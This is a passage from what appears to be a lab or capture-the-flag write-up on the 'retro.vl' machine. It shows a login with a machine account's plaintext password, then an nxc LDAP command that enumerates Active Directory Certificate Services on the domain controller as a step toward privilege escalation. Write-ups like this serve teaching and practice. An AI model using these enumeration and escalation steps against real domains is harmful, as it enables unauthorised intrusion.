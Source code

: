 ![](/assets/img/posts/retro/7.jpg)

Successfully authenticated with `Banking$:sidhere!`

## Privilege Escalation (ADCS)

To escalate privileges further, I decided to enumerate Active Directory Certificate Services (ADCS) within the environment. ADCS can often present misconfigurations that are exploitable for privilege escalation, especially in environments where certificate templates allow low-privileged users to request certificates with elevated permissions.

I used the nxc tool to query the domain for ADCS-related objects:

```bash
nxc ldap retro.vl -u 'BANKING$' -p 'sidhere!' -M adcs                                                                   
LDAP        10.10.99.43     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:retro.vl)
LDAP        10.10.99.43     389    DC               [+] retro.vl\BANKING$:sidhere!
ADCS        10.10.99.43     389    DC               [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.99.43     389    DC               Found PKI Enrollment Server: DC.retro.vl
ADCS        10.10.99.43     389    DC               Found CN: retro-DC-CA
```
